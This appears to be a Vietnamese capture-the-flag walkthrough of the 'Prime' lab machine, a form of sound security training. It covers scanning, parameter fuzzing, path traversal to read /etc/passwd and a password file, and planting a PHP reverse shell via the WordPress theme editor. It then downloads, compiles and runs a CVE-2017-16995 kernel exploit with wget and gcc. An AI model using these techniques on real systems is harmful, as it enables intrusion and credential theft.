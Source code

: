 ## Step 1
Máy prime cho ta biết một vài thông số: user là victor và có 1 tệp password.txt

![image](https://user-images.githubusercontent.com/97771705/223301082-ac55005f-a2a5-4beb-aa2e-0729ac8c54f3.png)

Dùng lệnh **netdiscover -r 10.0.2.0/24** ta tìm thấy IP của máy Prime

![image](https://user-images.githubusercontent.com/97771705/223301622-661a51b0-459b-4cea-b43a-430b263775ff.png)

Dùng lệnh **nmap -A 10.0.2.15** ta tìm thấy 2 port, trong đó có 1 port ssh và 1 port http

![image](https://user-images.githubusercontent.com/97771705/223301935-8330a925-14d7-4542-9df3-160903b3ac54.png)

## Step 2
Sử dụng browser truy cập vào trang 10.0.2.15 

![image](https://user-images.githubusercontent.com/97771705/223302137-31566638-75b5-463d-962a-0c65eac9d32c.png)

Khi dùng **dirsearch -u 10.0.2.15**, ta phát hiện vài trang wordpress

![image](https://user-images.githubusercontent.com/97771705/223303789-a8201541-0554-47e4-a838-0ce8e396db79.png)
![image](https://user-images.githubusercontent.com/97771705/223303964-c09f6ca3-4222-4adf-a259-6abb113d2e8d.png)

Trang js yêu cầu có quền cao hơn để vào

![image](https://user-images.githubusercontent.com/97771705/223304140-816b055c-b2ec-409d-b5fa-55c5cde35615.png)

Trang wordpress không có gì kì lạ

![image](https://user-images.githubusercontent.com/97771705/223431905-5bf7c1c5-c0e3-46c0-af6c-e6e97ce52f1c.png)

Sử dụng lệnh gobuster để tìm các trang ẩn 

> gobuster dir -u 10.0.2.15 -w /usr/share/wordlists/dirb/common.txt -x html,php,txt

Tự dưng lòi ra thêm secret.txt

![image](https://user-images.githubusercontent.com/97771705/223306643-3effc41b-3c1a-4613-8b18-5517ce71cb5e.png)

Secret.txt dẫn ta tới 1 trang github

![image](https://user-images.githubusercontent.com/97771705/223306787-f30e75c4-3a4e-4f42-877d-0f61ef08a73c.png)

Trên trang này có nhiều payload nhưng paylaod thứ nhất cho phép ta tìm được parameter "file"

>wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404 http://10.0.2.15/index.php?FUZZ

Ta thấy word = 12W là common lengh của tất cả các word. Thêm --hw 12 vào command trên

>wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404 --hw 12 http://10.0.2.15/index.php?FUZZ

![image](https://user-images.githubusercontent.com/97771705/223308523-804f4165-f876-49b4-a74b-821938939d68.png)

Truy cập vào /index.php?file=location.txt -> có gợi ý về 1 parameter khác

![image](https://user-images.githubusercontent.com/97771705/223308777-b2e7fb9f-634c-4d05-b5f0-e6252428003a.png)

## Step 3
Khi ta dùng gobuster, chỉ có 2 trang php trả về response 200. Ngoài trang index đã sử dụng thì chỉ còn image.php. Ta cần tìm value ứng với parameter secrettier360  của trang này
Làm tương tự như trên nhưng với lệnh

>wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404 http://10.0.2.15/image.php?secrettier360=FUZZ

![image](https://user-images.githubusercontent.com/97771705/223311316-dc739b8c-fd23-4df0-a1db-f511f4396713.png)

Common word là 17

>wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404 --hw 17 http://10.0.2.15/image.php?secrettier360=FUZZ

Ta tìm được value là dev

![image](https://user-images.githubusercontent.com/97771705/223311427-90a6129f-aaa4-4c23-8584-6efe31057f0c.png)

![image](https://user-images.githubusercontent.com/97771705/223311994-f42cd4d4-1ea1-422f-9ca4-53e106d22a53.png)

Nhưng tại sao tên value là dev, nó giống y hệt 1 folder của linux. Và nhắc đến folder của linux thì phải nhắc đến 1 path thường gặp nhất với những bài path travelsal /etc/passwd
Thử nhập path đó vào url 

![image](https://user-images.githubusercontent.com/97771705/223312437-46a45885-603c-4d67-848e-343b43de138e.png)

Boom!! Phát hiện password.txt
Đi theo path /home/saket/password.txt

![image](https://user-images.githubusercontent.com/97771705/223312884-6e9b3ee3-5c5d-419f-ac28-298ed4833f3c.png)

Password là follow_the_ippsec. Nhập thử vào máy Prime -> không phải pass. Vậy đây là pass của cái gì?
 Trước chúng ta dò được 1 trang login của wp, đến lúc xài rồi.
 
 Với username là victor và pass là follow_the_ippsec
 
 ![image](https://user-images.githubusercontent.com/97771705/223432311-3b8ed0af-34b8-4d6f-8a27-67aa81ab738f.png)

 Tại theme editor, tìm thấy secret.php
 
 ![image](https://user-images.githubusercontent.com/97771705/223432858-3c652fd4-57c3-4a88-9dbc-3b345756d3e4.png)

Secret.php cho phép nhập văn bản -> có thể lợi dụng để up reverse shell

## Step 4
(Từ đoạn này đổi máy: máy kali là 10.0.2.15, máy prime là 10.0.2.5)

Trên kali có sẵn một file reverse shell php tại /usr/share/webshells/php/php-reverse-shell.php

Copy text của file đó vào secret.php của wordpress theme editor và sứ ip và port

![image](https://user-images.githubusercontent.com/97771705/224310901-ccc47d4b-5c64-4a82-bedb-202404041675.png)

Tại root kali

![image](https://user-images.githubusercontent.com/97771705/224311108-f94f18d9-31d5-44b0-b491-f2ac5323a6d9.png)

Trên browser, truy cập trang http://10.0.2.5/wordpress/wp-content/themes/twentynineteen/secret.php

Ngay lúc đó, tại terminal

![image](https://user-images.githubusercontent.com/97771705/224312233-1bd453d9-9f3e-4a3c-b3a1-747974286c23.png)

Tìm được flag đầu tiên

![image](https://user-images.githubusercontent.com/97771705/224312612-6f90b555-e86d-4de5-a967-a9af17d30bfc.png)

## Step 5
Truy cập thử folder victor nhưng không đủ quyền 

![image](https://user-images.githubusercontent.com/97771705/224312781-334b0205-cc15-40f7-9ba6-9f488fc48080.png)

Tìm kiếm phiên bản kernel 

![image](https://user-images.githubusercontent.com/97771705/224314063-13fd798c-4204-4784-b232-b40c7c9d2567.png)

Tìm kiếm trên Google với từ khóa 4.10.0-28 generic exploit -> tìm thấy trang web có code exploit

https://github.com/kkamagui/linux-kernel-exploits/tree/master/kernel-4.10.0-28-generic/CVE-2017-16995

Download git về máy kali, di chuyển file CVE-2017-16995.c ra ngoài thư mục home (để tý nữa dễ nhập command hơn :( )

![image](https://user-images.githubusercontent.com/97771705/225659088-79e3576e-d452-4f9d-bbaf-a00cbf88983a.png)

Tạo kết nối http với port 1001 để victim có thể wget thư mục từ máy kali

> python3 -m http.server 1001

![image](https://user-images.githubusercontent.com/97771705/225659505-f7c78640-5c88-43a7-bd08-219a9e7e4b8d.png)

Tại terminal victim, cd /tmp và wget file c ở trên

> wget http://10.0.2.15:1001/CVE-2017-16995.c

Biên dịch file c 

> gcc CVE-2017-16995.c -o exploit

Chạy file exploit

> ./exploit 

![image](https://user-images.githubusercontent.com/97771705/225660562-47529a3f-ba78-437a-9fa4-bc81817e1002.png)




